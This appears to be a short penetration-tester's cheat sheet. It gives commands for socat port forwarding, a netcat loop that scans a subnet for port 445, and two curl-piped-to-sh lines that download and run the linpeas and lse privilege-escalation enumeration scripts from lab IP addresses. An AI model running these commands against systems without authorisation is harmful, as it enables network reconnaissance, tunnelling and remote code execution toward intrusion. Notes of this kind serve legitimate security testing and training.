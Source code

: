 # Forwarding & Tunneling

**Socat port forward**

```js
socat TCP-LISTEN:4141,fork TCP:<remote IP>:<remote port>
```

Remote port is now accessible at **Local IP** and **Local Port**

# Netcat Port Scan

-----

```js
for i in $(seq 1 254); do nc -zv -w 1 172.16.50.$i 445; done
```

# Linpeas

----

**In memory execution**

```bash
curl 10.10.14.24:80/enum/linpeas.sh | sh | tee /tmp/linpeas.out
```

# LinEnum

----

**In memory execution**

```bash
curl 192.168.49.135:80/enum/lse.sh | sh | tee /tmp/lse.out
```




